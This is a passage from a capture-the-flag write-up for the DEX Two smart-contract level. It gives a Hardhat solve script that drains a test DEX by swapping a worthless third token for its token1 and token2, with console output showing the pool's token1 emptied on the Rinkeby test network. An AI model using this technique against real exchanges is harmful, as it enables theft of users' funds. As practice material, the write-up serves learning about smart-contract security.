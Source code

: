 ```javascript
    tx = await token3.transfer(contract.address, 1);
    receipt = tx.wait()


    console.log("Level address     : " + contract.address)
    console.log("")
    await getState(account, contract)

    // buy all token1 supply with token3
    await approveFull(token3, account)
    amount = await maxAmount(account, contract, token3, token1)
    await swap(token3, token1, amount)
    await getState(account, contract);

    // buy all token2 supply with token3
    await approveFull(token3, account)
    amount = await maxAmount(account, contract, token3, token2)
    await swap(token3, token2, amount)
    await getState(account, contract);

}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/dex-two-solve.js --network rinkeby
Level address     : 0x152455D0cf949aDa768a9100423951E0a857D1cC

======== Account ========
Token1 balance: 10
Token2 balance: 10
Token3 balance: 1000
========   DEX   ========
Token1 balance: 100
Token2 balance: 100
Token3 balance: 0
Token1->Token2: 1
Token2->Token1: 1
Token1->Token3: 0
Token3->Token1: N/A
Token2->Token3: 0
Token3->Token2: N/A

Swapping 1 Token 3 to Token 1

======== Account ========
Token1 balance: 110
Token2 balance: 10
Token3 balance: 998
========   DEX   ========
Token1 balance: 0
Token2 balance: 100
Token3 balance: 2
Token1->Token2: N/A
Token2->Token1: 0
Token1->Token3: N/A
Token3->Token1: 0
Token2->Token3: 0.02
Token3->Token2: 50

```